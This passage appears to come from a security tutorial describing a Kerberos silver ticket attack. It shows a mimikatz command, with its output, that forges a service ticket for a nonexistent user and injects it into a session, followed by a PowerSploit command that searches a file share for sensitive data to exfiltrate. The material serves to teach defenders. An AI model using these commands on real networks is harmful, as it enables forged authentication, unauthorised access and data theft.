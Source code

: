 mimikatz(commandline) # exit
Bye!

Step 2: Tools like mimikatz can be used to mint silver tickets. The process for forging TGS tickets is similar to minting golden tickets, and with mimikatz uses the same kerberos::golden method, specifying the password hash of the service account instead of the krbtgt:

/domain – The fully qualified domain name of the Active Directory domain
/sid – The SID of the Active Directory domain
/user – The username to impersonate
/target – The fully qualified domain name of the server
/service – The target service name
/rc4 – The NTLM/RC4 password hash
Console
PS> .\mimikatz.exe "kerberos::golden /user:NonExistentUser /domain:domain.com /sid:S-1-5-21-5840559-2756745051-1363507867 /rc4:8fbe632c51039f92c21bcef456b31f2b /target:FileServer1.domain.com /service:cifs /ptt" "misc::cmd" exit
 
mimikatz(commandline) # kerberos::golden /user:NonExistentUser /domain:domain.com /sid:S-1-5-21-5840559-2756745051-1363507867 /rc4:8fbe632c51039f92c21bcef456b31f2b /target:FileServer1.domain.com /service:cifs /ptt
User      : NonExistentUser
Domain    : domain.com (DOMAIN)
SID       : S-1-5-21-5840559-2756745051-1363507867
User Id   : 500
Groups Id : *513 512 520 518 519
ServiceKey: 8fbe632c51039f92c21bcef456b31f2b - rc4_hmac_nt
Service   : cifs
Target    : FileServer1.domain.com
Lifetime  : 27/07/2020 12:20:26 ; 25/07/2030 12:20:26 ; 25/07/2030 12:20:26
-> Ticket : ** Pass The Ticket **
 
 * PAC generated
 * PAC signed
 * EncTicketPart generated
 * EncTicketPart encrypted
 * KrbCred generated
 
Golden ticket for 'NonExistentUser @ domain.com' successfully submitted for current session
 
mimikatz(commandline) # misc::cmd
Patch OK for 'cmd.exe' from 'DisableCMD' to 'KiwiAndCMD' @ 00007FF7767043B8
 
mimikatz(commandline) # exit
Bye!

Step 3: In the previous step, the adversary forged a silver ticket and injected it into a new cmd.exe session. The silver ticket the attacker minted specified the cifs service, which will allow the attacker to use the forged TGS to access file shares. Because the TGS is forged, it can be created for a user that does not actually exist in the domain making it harder for responders to track the adversary.

In this example, the adversary uses the forged ticket and the Find-InterestingFile cmdlet, provided by the PowerShell module PowerSploit, to scan the file share for and exfiltrate sensitive data.

Console
PS> Find-InterestingFile -Path \\FileServer1.domain.com\S$\shares\
 
